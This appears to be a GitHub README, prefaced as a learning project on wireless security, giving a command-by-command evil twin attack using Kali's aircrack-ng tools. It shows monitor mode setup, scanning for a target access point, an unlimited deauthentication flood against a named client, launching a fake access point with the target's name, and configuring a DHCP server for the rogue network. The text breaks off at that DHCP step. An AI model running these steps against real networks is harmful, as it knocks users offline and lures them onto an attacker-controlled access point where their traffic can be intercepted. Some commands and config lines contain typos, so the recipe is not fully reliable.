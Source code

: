 # 前言[![Awesome](https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg)]

仅供参考,此project为学习之用,了解破解流程,学习无线安全

system : kali linux

software : aiicrack-ng

## Task2 

Evil Twin AP Attack: Set up a fake AP impersonating the target AP, and force target AP users to connect to it.

### 1. start wireless card monitor mode 

```
airmon-ng start wlan0
```

(wlan0 is the port of the wireless network card,it can be check by inputing `ifconfig` or `iwconfig`)

### 2. checking wireless AP(access point)

```
airodump-ng wlan0mon
```
(the prot been changed to wlan0mon after starting monitor mode)

this command can list all the information about AP ,Station and the traffic between them

you can see the name in the table 

BSSID : the MAC address of the AP

PWR : Signal strength

Beacons : one of the management frames, theo purpose of it is to transmit periodically, they serve to announce the presence of a wireless LAN and to synchronise the members of the service set.

Data : the throughput of the AP 

CH : channel

ENC : Encrept protocol 

ESSID : the name of AP

#### in case the channel will change over time,set the stable channel 
```
airodump-ng -c 11 -i wlan0 --bssid C4:71:54:23:2A:AE 
```

-c : channel number ,in this case , i choose 11

-i : choose the card to monitor 

--bssid : the MAC address of target AP

this command only show the traffic between client and target AP

## 3. attack target by using aireplay-ng
```
aireplay-ng -0 0 -a C4:71:54:23:2A:AE -c EC:D0:9F:87:DD:6F  wlan0mon
```

-0 : Conflict attack mode , follow by the attack times , 0 represent all the times

-a : the MAC of AP  , this can be captured from the `airodump-ng wlan0mon`

-c : the client that connect to AP legally. if not spcecif which client , it will disconnect all the clients which connect to this WI-FI

## 4. Set up a fake AP impersonating the target AP

the client will be disconnected from the AP we input above 

```
airbase-ng -a AA:AA:AA:AA:AA:AA --essid 'BeautifulSoup' -c 11 wlan0mon
```

-a :set up MAC address 

-essid : the name of AP ,this should be same as the target WI-FI

-c : channel 11

###  DHCP server 

1. install DHCP server

```
sudo apt install -y isc-dhcp-server
```
2.modify DHCP conf file

type the command below in your terminal

```
vi /etc/dhcp/dhcpd.conf
```
change the content or uncomment the content as follow

```
authoritative;
default-lease-wime 600;
max-lease-time 7200;
subnet 192.168.1.128 netmask 255.255.255.128 {
option subnet-mask 255.255.255.128;
option broadcast 192.168.1.255;
option routers 192.168.1.129;
option domain-name-servers 8.8.8.8;
range 192.168.1.130 192.168.1.140;
}
```

